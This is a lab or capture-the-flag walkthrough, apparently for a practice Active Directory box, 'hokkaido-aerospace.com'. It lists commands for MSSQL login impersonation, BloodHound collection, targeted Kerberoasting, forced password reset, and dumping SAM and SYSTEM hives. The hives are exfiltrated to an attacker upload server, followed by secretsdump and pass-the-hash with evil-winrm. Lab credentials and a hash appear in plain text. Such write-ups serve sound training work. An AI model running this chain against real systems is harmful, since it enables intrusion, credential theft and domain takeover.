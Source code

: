 Now trying mssql with discovery creds from [[445]]
```
nxc mssql hokkaido-aerospace.com -u discovery -p 'Start123!'
```
![](../attachment/4a210fd457c094e257d2a8d7c9bf81f8.png)


Now we can login to mssql:
```
mssqlclient.py discovery@hokkaido-aerospace.com -windows-auth
```

Now we have a database called hrappdb which we can't access![](../attachment/a82a70ea76af6b31cd4012ab61992c0f.png)

Now checking for impersonation:

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
![](../attachment/50c59ac64bc7cb19c0b30c366f016c8c.png)

```
EXECUTE AS LOGIN = 'hrappdb-reader' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
```

Now we are `hrappdb-reader`
![](../attachment/93aa27bbff5abc47d82a00edcede8f97.png)

Now checking databases:
```
SELECT name FROM master.dbo.sysdatabases
```
![](../attachment/f17153e53b0832857d718d981b897895.png)
Checking all tables:
```
SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;
```
![](../attachment/c1c0f18677ff89cdd6765abc75db208a.png)

```
select * from sysauth;
```

![](../attachment/f0fbf2c986e1b7b81d0e09c0c317caf3.png)

Now verifying credentials:
![](../attachment/3ffb2d15783864f4e923dd39d32bf76e.png)
It is valid.

Now running bloodhound digestor:
```
bloodhound.py -u 'hrapp-service' -p 'Untimed$Runny' -ns 192.168.218.40 -d hokkaido-aerospace.com -c all --zip
```

Now in bloodhound checking outbound transitive object control for hrapp-service:
![](../attachment/4c71665cbfeb0f1565f539eae9176fdc.png)
We have genericWrite over hazel.
Now to get hashes:
```
targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny'
```
![](../attachment/e477ab579d5f9f069b25b44fe3194823.png)
We got hashes for maintenence,hazel and discover

Trying to crack we got creds only for hazel:
![](../attachment/72dbec6568758330d2b36ed528bbe180.png)
![](../attachment/2bbac251206d0e11d9cacadbbe5cc761.png)

RERUN BLOODHOUND AS HAZEL:
```
bloodhound.py -u 'Hazel.Green' -p 'haze1988' -ns 192.168.218.40 -d hokkaido-aerospace.com -c all --zip
```
Now in bloodhound we can check hazel outbound transitive object control:
![](../attachment/126bd956c58ab8cc0b4045c03ce6b943.png)
We can see that Hazel is a member of TIER2-ADMINS and IT.

Checking member of IT:
![](../attachment/e341fabebefe24b945ff42cf7b977f1b.png)
We have 3 members:

Molly.Smith:
![](../attachment/e8634e17dfb4284b280042828935cfb9.png)

Alexandra.Little:
![](../attachment/ccb251bfbd849c4cadbd073045b71fdf.png)

We can see Molly has more rights.


Now checking Shortest path to domain admin:
![](../attachment/51bf1e1208c6d900825df38c7de49738.png)

Now resetting Molly's password:
```
net rpc password "molly.smith" "Password123@" -U "hokkaido-aerospace.com"/"Hazel.Green"%"haze1988" -S "dc.hokkaido-aerospace.com"
```

Now we can use rdp:
![](../attachment/a17bd5d544de9109cc68b5560334baca.png)
```
xfreerdp /u:molly.smith /p:'Password123@' /v:hokkaido-aerospace.com /cert-ignore /compression /auto-reconnect
```

Connect using xfreerdp:
![](../attachment/404be2903db035c221224629c0952c5e.png)
We are molly.smith now

Now running command prompt as administrator with molly's creds:
![](../attachment/ec1fbd2e22a1aad1073dde27ba2d8d35.png)

Now we can use our SeBackupPrivilege to Privesc:
```
cd c:\
reg save hklm\sam c:\Temp\sam\
reg save hklm\system c:\Temp\system
```
Now we have sam and system in  Temp directory. 

Now start a python upload server on kali:
```
python3 -m uploadserver 80
```
Now upload sam ans system by visiting edge on windows target.

Now use secretsdump.py:
```
secretsdump.py LOCAL -sam sam -system system
```

Now we have hashes for administrator:
![](../attachment/1a3404ac3a73c653086d62f06cce07a9.png)

Now we have pwned it:
![](../attachment/85071c3182f0b30f4b8d3a8593433be0.png)

Now we can login with evil-winrm:
```
evil-winrm -i hokkaido-aerospace.com -u Administrator -H 'd752482897d54e239376fddb2a2109e4'
```
![](../attachment/859e5da7f51399267a5877e80615475b.png)
